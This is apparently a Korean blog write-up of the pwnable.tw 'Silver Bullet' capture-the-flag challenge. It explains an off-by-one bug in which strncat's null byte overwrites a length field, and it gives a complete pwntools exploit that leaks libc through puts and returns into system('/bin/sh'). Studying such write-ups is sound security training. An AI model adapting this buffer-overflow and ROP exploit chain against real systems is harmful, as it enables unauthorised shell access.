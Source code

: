 ```yaml
---
layout: post
title: "pwnable.tw - Silver Bullet"
date: 2018-11-08
excerpt: "1 byte overflow + simple ROP"
tags: [write-up]
comments: true
---
```

```
1. Create a Silver Bullet 
2. Power up Silver Bullet 
3. Beat the Werewolf      
4. Return
```
main은 단순히 옵션 선택이며 히든 옵션은 없습니다.

```c
char s; // [esp+8h] [ebp-34h]
int v8; // [esp+38h] [ebp-4h]
.
.
memset(&s, 0, 0x30u);
.
.

```
그리고 위와 같이 48 바이트 크기의 char형 배열과 int형 변수 하나가 선언되어 있습니다. 이를 bullet과 power로 부르겠습니다.

bullet은 모두 0으로 초기화 됩니다.

#### 1. Create a Silver Bullet
```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```
bullet에 값이 있는지 체크한 뒤, 없다면 48 만큼 입력받습니다.

특이한 점은, 입력한 길이가 power에 저장됩니다.

#### 2. Power up Silver Bullet
```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 0x30u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```
power가 47 이하라면 (48 - power)만큼 입력받아 입력값을 strncat으로 bullet 뒤에 이어 붙입니다.

그 후 bullet + 12(power)와 새로운 입력값의 길이를 더해 power에 다시 저장합니다.

#### 3. Beat the Werewolf      
```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```
bullet에 값이 있다면, a2(main에서 선언된 int형 변수이며, 0x7fffff의 값을 가집니다.)에서 power을 빼,

그 값이 0 이하라면 return 1 하고, 그 외에는 0을 리턴합니다.

```c
if ( beat(&s, &v5) )
      return 0;
```
위는 main의 코드의 일부인데, beat()의 리턴값이 1이라면 main은 return 0 합니다.

이는 특정 조건 달성시 ROP를 트리거해주는 장치라고 추측할 수 있습니다.

### Exploit

취약점은 strncat과 power up()에서 power을 처리할 때 발생합니다.

Create bullet시 47 바이트를 입력하면 Power up시 1 바이트를 입력하는데, strncat으로 47 바이트 뒤에 1 바이트를 strncat하면

뒤에 NULL이 따라 붙기 때문에 47 + 1 바이트가 버퍼를 채우고 NULL이 power을 덮게 됩니다.

strncat후 power이 0x00으로 덮인 상태에서
```c
strncat(dest, &s, 48 - *(dest + 12));
v3 = strlen(&s) + *(dest + 12);
printf("Your new power is : %u\n", v3);
*(dest + 12) = v3;
```
위와 같이 원래 power을 따로 보관하지 않는다는 소스의 허점때문에 결국 power는 새로 입력한 데이터의 길이인 0x01이 됩니다.

그렇게 되면 다음번 power up시 48 - 1 = 47 바이트를 버퍼 뒤에 이어 입력할 수 있게 되기에 power와 main의 eip를 조작할 수 있습니다.

따라서 puts로 libc를 leak하고 main loop으로 다시 ROP를 진행하면 쉘 취득이 가능합니다.

exp.py
```python
from pwn import *

def create(payload):
	p.recvuntil('Your choice :')
	p.sendline('1')
	p.recvuntil('description of bullet :')
	p.send(payload)

def up(payload):
	p.recvuntil('Your choice :')
	p.sendline('2')
	p.recvuntil('another description of bullet :')
	p.send(payload)

def beat():
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('!!\n')

#p = process('./silver_bullet')
p = remote('chall.pwnable.tw', 10103)
e = ELF('./silver_bullet')
l = ELF('libc_32.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']

main = 0x08048954

offset_puts = l.symbols['puts']
#offset_puts = 0x5fca0 # local
offset_system = l.symbols['system']
#offset_system = 0x3ada0 # local
offset_binsh = next(l.search('/bin/sh'))
#offset_binsh = 0x15ba0b # local

# Stage 1 : libc leak

create('A' * 47)
up('A')

payload = '\xff'* 7
payload += p32(puts_plt) + p32(main) + p32(puts_got)

up(payload)
beat()

libc = u32(p.recv(4)) - offset_puts
system = libc + offset_system
binsh = libc + offset_binsh

log.info('libc base : ' + str(hex(libc)))

# Stage 2 : ROP

create('A' * 47)
up('A')

payload = '\xff' * 7
payload += p32(system) + 'AAAA' + p32(binsh)

up(payload)
beat()

p.interactive()
```

![shell](https://t1.daumcdn.net/cfile/tistory/997AA93C5BE4228002)
